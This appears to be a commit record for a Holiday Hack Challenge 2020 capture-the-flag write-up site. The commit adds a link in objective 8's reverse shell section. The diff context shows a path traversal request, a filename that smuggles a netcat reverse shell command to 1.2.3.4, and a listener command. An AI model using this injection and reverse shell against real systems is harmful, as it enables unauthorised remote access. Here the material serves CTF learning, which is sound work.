

Before and after one commit to crahan/HolidayHackChallenge2020, an MkDocs documentation site: the page built from docs/objectives/o8.md, in a window 1280 px wide and 900 px high, scrolled down 3631 px. Shown: the part 236-585 px from the top of the window. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
Updated link

```diff
--- a/docs/objectives/o8.md
+++ b/docs/objectives/o8.md
@@ -150,6 +150,6 @@
 !!! note "Reverse shell"
     A request to `https://tag-generator.kringlecastle.com/image?id=../../../bin/nc` confirms that netcat is available so we can leverage the code execution vulnerability to establish a reverse shell with full interactive access. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/sh`, but forward slashes are not an option as they're not allowed in a file name.
 
-    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the zipped image file, and wait for the reverse shell connection to be established.
+    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the [zipped image file](../tools/objectives/o8/reverse_shell_payload.zip), and wait for the reverse shell connection to be established.
 
     ![Reverse shell](../img/objectives/o8/reverse_shell.png)
```
